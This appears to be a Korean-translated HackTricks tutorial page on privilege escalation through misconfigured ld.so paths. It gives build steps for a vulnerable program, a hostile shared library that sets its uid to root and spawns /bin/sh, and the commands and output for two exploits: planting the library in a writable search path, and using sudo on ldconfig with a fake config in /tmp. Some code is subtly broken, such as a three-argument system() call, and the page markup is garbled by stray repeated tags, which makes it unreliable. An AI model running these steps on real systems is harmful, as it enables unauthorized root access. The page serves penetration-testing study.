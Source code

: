 # ld.so privesc exploit example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

## 환경 준비

다음 섹션에서는 환경을 준비하는 데 사용할 파일의 코드를 찾을 수 있습니다.

{% tabs %}
{% tab title="sharedvuln.c" %}
```c
#include <stdio.h>
#include "libcustom.h"

int main(){
printf("Welcome to my amazing application!\n");
vuln_func();
return 0;
}
```
{% endtab %}

{% tab title="libcustom.h" %}
```c
#include <stdio.h>

void vuln_func();
```
{% endtab %}

{% tab title="libcustom.c" %}
```c
#include <stdio.h>

void vuln_func()
{
puts("Hi");
}
```
{% endtab %}
{% endtabs %}

1. **해당** 파일들을 같은 폴더에 **생성**합니다.
2. **라이브러리**를 **컴파일**합니다: `gcc -shared -o libcustom.so -fPIC libcustom.c`
3. `libcustom.so`를 `/usr/lib`로 **복사**합니다: `sudo cp libcustom.so /usr/lib` (루트 권한)
4. **실행 파일**을 **컴파일**합니다: `gcc sharedvuln.c -o sharedvuln -lcustom`

### 환경 확인

_libcustom.so_가 _/usr/lib_에서 **로드**되고 있으며 이진 파일을 **실행**할 수 있는지 확인합니다.
```
$ ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffc9a1f7000)
libcustom.so => /usr/lib/libcustom.so (0x00007fb27ff4d000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fb27fb83000)
/lib64/ld-linux-x86-64.so.2 (0x00007fb28014f000)

$ ./sharedvuln
Welcome to my amazing application!
Hi
```
## Exploit

이 시나리오에서는 **누군가가 _/etc/ld.so.conf/_ 파일 안에 취약한 항목을 생성했다고 가정합니다**:
```bash
sudo echo "/home/ubuntu/lib" > /etc/ld.so.conf.d/privesc.conf
```
취약한 폴더는 _/home/ubuntu/lib_입니다 (여기에서 쓰기 권한이 있습니다).\
**다음 코드를 다운로드하고 컴파일**하십시오:
```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

void vuln_func(){
setuid(0);
setgid(0);
printf("I'm the bad library\n");
system("/bin/sh",NULL,NULL);
}
```
이제 **잘못 구성된** 경로 안에 악성 libcustom 라이브러리를 **생성했으므로**, **재부팅**을 기다리거나 루트 사용자가 **`ldconfig`**를 실행하기를 기다려야 합니다 (_이 이진 파일을 **sudo**로 실행할 수 있거나 **suid 비트**가 설정되어 있다면 직접 실행할 수 있습니다_).

이 일이 발생한 후 **다시 확인**하여 `sharevuln` 실행 파일이 `libcustom.so` 라이브러리를 어디에서 로드하는지 확인하십시오:
```c
$ldd sharedvuln
linux-vdso.so.1 =>  (0x00007ffeee766000)
libcustom.so => /home/ubuntu/lib/libcustom.so (0x00007f3f27c1a000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f3f27850000)
/lib64/ld-linux-x86-64.so.2 (0x00007f3f27e1c000)
```
As you can see it's **loading it from `/home/ubuntu/lib`** and if any user executes it, a shell will be executed:  
당신이 볼 수 있듯이 **`/home/ubuntu/lib`에서 로드되고** 어떤 사용자가 실행하면 셸이 실행됩니다:
```c
$ ./sharedvuln
Welcome to my amazing application!
I'm the bad library
$ whoami
ubuntu
```
{% hint style="info" %}
이 예제에서는 권한을 상승시키지 않았지만, 실행되는 명령을 수정하고 **루트 또는 다른 권한이 있는 사용자가 취약한 바이너리를 실행하기를 기다리면** 권한을 상승시킬 수 있습니다.
{% endhint %}

### 다른 잘못된 구성 - 동일한 취약점

이전 예제에서는 관리자가 **`/etc/ld.so.conf.d/` 내의 구성 파일 안에 비권한 폴더를 설정한** 잘못된 구성을 가장했습니다.\
하지만 동일한 취약점을 유발할 수 있는 다른 잘못된 구성도 있습니다. `/etc/ld.so.conf.d` 내의 일부 **구성 파일**에 **쓰기 권한**이 있거나, `/etc/ld.so.conf.d` 폴더 또는 `/etc/ld.so.conf` 파일에 쓰기 권한이 있으면 동일한 취약점을 구성하고 이를 악용할 수 있습니다.

## Exploit 2

**`ldconfig`에 대한 sudo 권한이 있다고 가정합니다.**\
`ldconfig`에 **구성 파일을 어디서 로드할지** 지시할 수 있으므로, 이를 이용해 `ldconfig`가 임의의 폴더를 로드하도록 할 수 있습니다.\
따라서 "/tmp"를 로드하는 데 필요한 파일과 폴더를 생성해 봅시다:
```bash
cd /tmp
echo "include /tmp/conf/*" > fake.ld.so.conf
echo "/tmp" > conf/evil.conf
```
이제 **이전 익스플로잇**에서 언급한 대로, **`/tmp` 안에 악성 라이브러리를 생성합니다**.\
마지막으로, 경로를 로드하고 바이너리가 라이브러리를 어디에서 로드하는지 확인해 봅시다:
```bash
ldconfig -f fake.ld.so.conf

ldd sharedvuln
linux-vdso.so.1 =>  (0x00007fffa2dde000)
libcustom.so => /tmp/libcustom.so (0x00007fcb07756000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fcb0738c000)
/lib64/ld-linux-x86-64.so.2 (0x00007fcb07958000)
```
**보시다시피, `ldconfig`에 대한 sudo 권한이 있으면 동일한 취약점을 악용할 수 있습니다.**

{% hint style="info" %}
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
